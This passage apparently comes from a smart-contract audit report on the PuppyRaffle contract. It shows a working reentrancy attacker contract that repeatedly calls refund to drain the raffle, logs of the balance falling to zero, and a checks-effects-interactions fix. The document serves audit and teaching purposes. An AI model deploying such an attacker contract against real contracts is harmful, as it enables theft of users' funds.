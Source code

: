 ```javascript
    }
```

Attack Contract
```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

Logs : 
```Logs:
  PuppyRaffle balance:  4000000000000000000
  AttackerContract balance before the attack:  0
  AttackerContract balance after the attack:  5000000000000000000
  PuppyRaffle balance after the attack:  0
  ```
</details>

**Recommend Mitigation** 
Considere fazer o update do array do player antes de fazer a chamada external de envio de ether

```javascript
function refund(uint256 playerIndex) public {
        //Checks
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        //Effects
        players[playerIndex] = address(0);

        //Interactions
        payable(msg.sender).sendValue(entranceFee);

        emit RaffleRefunded(playerAddress);
    }
```
